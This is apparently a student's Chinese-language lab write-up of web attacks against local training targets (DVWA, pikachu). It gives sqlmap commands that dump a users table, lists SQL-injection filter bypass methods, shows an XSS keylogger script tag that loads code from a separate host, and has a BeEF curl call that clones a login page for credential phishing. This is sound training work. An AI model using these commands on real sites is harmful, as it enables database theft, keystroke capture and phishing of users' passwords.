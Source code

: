 ## 1.使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。

### sqlmap -u "http://192.168.80.128:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=453ibj6d8pns5870tegk3aao25; security=low"  -p id --dbs        获取库

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-10-13-14-56-1696904865691_2DB1ACAC-FDDE-49aa-AE7D-A2F83A210338.png)

### sqlmap -u "http://192.168.80.128:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=453ibj6d8pns5870tegk3aao25; security=low"  -D dvwa --tables  获取表

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-10-13-15-34-1696904953765_E53CD406-3AE1-4f86-8008-F1CC2FB33BF8.png)

### sqlmap -u "http://192.168.80.128:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=453ibj6d8pns5870tegk3aao25; security=low"  -D dvwa -T users --columns 获取列

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-10-13-16-20-1696905099887_D76BD188-061A-4881-85CD-6B0DF2E28286.png)

### sqlmap -u "http://192.168.80.128:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=453ibj6d8pns5870tegk3aao25; security=low"  -D dvwa -T users -C last_name,password --dump  获取字段

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-10-13-16-46-1696905577822_01558735-B53B-42fa-953B-63285B050310.png)



## 2.练习课件上的SQL注入绕过方式

大小写绕过

替换关键字

使用编码

使用注释



## 3.XSS

### 1)使用 pikachu 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；

### 键盘记录

<script src="http://192.168.80.128:8083/pkxss/rkeypress/rk.js"></script>

![](https://static.dingtalk.com/media/lQLPJxh0zz9iYcDNAgvNBMmw1EIFxqyjsfUFF4EaTkCVAA_1225_523.png)

![](https://static.dingtalk.com/media/lQLPJv_xS85vIcDNAm3NAlGwM72d2UJsv1EFF4EaTkCVAQ_593_621.png)

### cookie

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-10-13-20-35-7dcb370f3514bc3168d9cae5e160f9e3.png)

![](https://static.dingtalk.com/media/lQLPJxWmTyVvk2DNAjPNB1OwVNx7X6zfv5oFF4TI-wAiAg_1875_563.png)

![](https://static.dingtalk.com/media/lQLPJxkzzco2E2DNAVzNB3Wwod0U7nnO5AoFF4TI-wAiAA_1909_348.png)

### 2)使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。

### beef 启动，修改相应的参数。

### curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"http://192.168.80.128:8083/vul/xss/xsspost/post_login.php","mount":"/pikachu"}' -X POST http://192.168.80.130:3000/api/seng/clone_page?token=976182e44e055869595633f14b2fb30a798616cc

![](https://static.dingtalk.com/media/lQLPJwFK53X-lbDNAj7NB36wP4eaOpRDQyIFF5y5-AAiAQ_1918_574.png)

![](https://static.dingtalk.com/media/lQLPJwGl2oZ41bDNArbNB22w9H1ehjigdfEFF5y5-AAiAA_1901_694.png)
